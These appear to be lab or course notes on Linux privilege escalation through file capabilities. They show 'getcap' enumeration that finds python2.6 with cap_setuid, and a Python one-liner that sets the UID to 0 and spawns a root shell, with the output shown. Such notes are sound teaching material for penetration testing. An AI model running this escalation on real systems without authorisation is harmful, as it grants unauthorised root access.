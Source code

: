 
Unlike SUID which gives the user full privilege access, with capabilities we can give granular access to privilege tasks as needed. Read [Article 1](https://mn3m.info/posts/suid-vs-capabilities/) and [Article 2](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) for more details.

We can check for existing capabilities with the `getcap` command.

```bash
TCM@debian:~$ getcap -r / 2>/dev/null 
/usr/bin/python2.6 = cap_setuid+ep
```

We see that `/usr/bin/python2.6` has the capability to `setuid` and the `+ep` indicates it is also permitted all actions (effective permitted).

Since we can set the UID with python, we can do the following.

```bash
TCM@debian:~$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@debian:~# whoami
root
```

> [!tip] 
> Capabilities will not show up when the `find -perm -04000` command is run!

